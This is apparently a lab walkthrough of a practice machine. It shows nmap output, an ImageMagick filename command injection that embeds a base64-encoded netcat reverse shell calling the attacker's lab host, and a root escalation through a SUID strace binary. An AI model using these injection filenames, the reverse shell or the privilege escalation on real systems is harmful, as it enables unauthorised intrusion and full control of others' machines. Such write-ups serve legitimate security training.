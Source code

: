 ## First Enumeration with nmap 

```shell
# Nmap 7.94SVN scan initiated Mon Feb 19 11:40:13 2024 as: nmap -sC -sV -T4 -oN service.nmap -p 80,22 -Pn 192.168.239.178
Nmap scan report for 192.168.239.178
Host is up (0.17s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 62:36:1a:5c:d3:e3:7b:e1:70:f8:a3:b3:1c:4c:24:38 (RSA)
|   256 ee:25:fc:23:66:05:c0:c1:ec:47:c6:bb:00:c7:4f:53 (ECDSA)
|_  256 83:5c:51:ac:32:e5:3a:21:7c:f6:c2:cd:93:68:58:d8 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: ImageMagick Identifier
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Feb 19 11:40:27 2024 -- 1 IP address (1 host up) scanned in 14.60 seconds
```

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/32e34f3a-8717-4d6e-b959-a8ebb1447d7a)

a web server is running on port 80, checking it on a browser we got an `Imagemagick identifier`. 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/b53ed14a-f46a-463e-9255-21d372bf3057)

uploaded an image file and we can see the version of this service running is `6.9.6-4`.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/a21b78b9-40e7-46f7-b753-121e9aeec290)

searching for exploit on this service, we can see there's an RCE vuln present read about [exploit](https://github.com/ImageMagick/ImageMagick/issues/6339). 

```shell
┌──(n16hth4wk👽n16hth4wk-sec)-[~/Documents/PGP/Image]
└─$ cp ~/Pictures/1.png .
                                                                                                                                                            
┌──(n16hth4wk👽n16hth4wk-sec)-[~/Documents/PGP/Image]
└─$ cp 1.png '|1"`ping 192.168.45.212`".png'
```
modify the name of an image and inject an arbitary code to ping our host. 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/4e80705f-9c83-4cf9-a4b5-3f8480c9655b)

upload the modified image. 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/baa494d9-ee75-475a-aedb-f14c4c0225af)

we got a ping back, let's spawn a reverse shell.

```shell
#base64 encode payload
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.45.212 80 >/tmp/f

cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnxzaCAtaSAyPiYxfG5jIDE5Mi4xNjguNDUuMjEyIDgwID4vdG1wL2Y=

┌──(n16hth4wk👽n16hth4wk-sec)-[~/Documents/PGP/Image]
└─$ cp 1.png '|1"`echo cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnxzaCAtaSAyPiYxfG5jIDE5Mi4xNjguNDUuMjEyIDgwID4vdG1wL2Y= | base64 -d|bash`".png'
```
first we base64 encode the reverse shell payload. fire up ncat listener

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/039154d6-b9ab-4e95-ad25-a1dd907e9ceb)

Uploaded the image.


```shell
┌──(n16hth4wk👽n16hth4wk-sec)-[~/Documents/PGP/Image]
└─$ ncat -lnvp 80                                                
Ncat: Version 7.94SVN ( https://nmap.org/ncat )
Ncat: Listening on [::]:80
Ncat: Listening on 0.0.0.0:80
Ncat: Connection from 192.168.239.178:55626.
sh: 0: can't access tty; job control turned off
$ whoami 
www-data
$
```
check back listener and we got a reverse shell as `www-data`. 


## Privilege Escalation 

```
www-data@image:/var/www/html$ find / -perm -u=s -type f 2>/dev/null
/usr/bin/strace
/usr/bin/fusermount                                                           
/usr/bin/sudo               
/usr/bin/su                      
/usr/bin/umount                                                               
/usr/bin/passwd            
/usr/bin/chsh                 
/usr/bin/chfn                 
/usr/bin/at                      
/usr/bin/mount                 
/usr/bin/newgrp                 
/usr/bin/gpasswd                
/usr/bin/pkexec             
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign    
/usr/lib/eject/dmcrypt-get-device
```
loocking for suid, we got an suid `/usr/bin/strace`. let's abuse this. 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/444e47f5-832f-4096-b93b-9e88af2abeff)

found abuse commands in gtfobins

```shell
www-data@image:/var/www/html$ /usr/bin/strace -o /dev/null /bin/bash -p 
bash-5.0# whoami 
root
bash-5.0# id
uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)
bash-5.0# 
```
abused the suid binary and we got a root shell. 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/0081f65c-de3f-4d87-b6dc-e89f45509140)

and we are through. 🙂 easy yeah
